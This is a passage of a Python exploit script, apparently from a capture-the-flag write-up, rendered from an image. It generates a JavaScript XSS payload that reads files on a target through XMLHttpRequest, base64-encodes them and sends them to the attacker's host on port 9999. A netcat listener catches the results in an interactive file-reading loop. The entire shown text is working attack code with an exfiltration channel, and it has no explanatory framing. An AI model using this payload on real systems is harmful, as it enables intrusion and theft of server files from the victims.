 ```py
    payload += "        req.open('GET', url, true);\n"
    payload += "        req.send();\n"
    payload += "        req.onreadystatechange = function(){\n"
    payload += "        if(req.readyState == XMLHttpRequest.DONE){\n"
    payload += "                var resultText = btoa(req.response);\n"
    payload += "                send(resultText)\n"
    payload += "                }\n"
    payload += "        }\n"
    payload += "}\n"
    payload += "function send(resultText){\n"
    payload += "        var xhr=new XMLHttpRequest();\n"
    payload += "        xhr.open('GET', 'http://%s:9999/' + resultText, true);\n" %lhost
    payload += "        xhr.send();\n"
    payload += "}\n"
    payload += "read_report();\n"
    f = open("0x4rt3mis.js", "w")
    f.write(payload)
    f.close()

# Function to just read the get.txt file and convert it
def readFile():
    f = open('get.txt','r')
    output= f.read()
    if len(output) < 5:
        print("[+] File does not exist or I can't read it!! ")
    else:
        b64encoded = re.search(' .* ', output).group(0)
        b64encoded = b64encoded.removeprefix(" /")
        print()
        print(b64d(b64encoded))

# Function to iterate trough files
def xssLFI(lhost,rhost):
    prefix = "Reading file: "
    file = ""
    while True:
        file = input(prefix)
        if file != "exit":
            createPayload(file,lhost)
            triggerXSS(lhost)
            os.system('nc -q 5 -lnvp 9999 > get.txt 2>/dev/null &')
            os.system("sleep 5")
            readFile()
        else:
            print("[+] Exitttttting..... !!!! [+]")
            break

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-li', '--localip', help='Local ip address or hostname', required=True)
    args = parser.parse_args()

    rhost = args.target
    lhost = args.localip

    '''Here we call the functions'''
    # Set up the web python server
    webServer()
    # Trigger it
    xssLFI(lhost,rhost)

```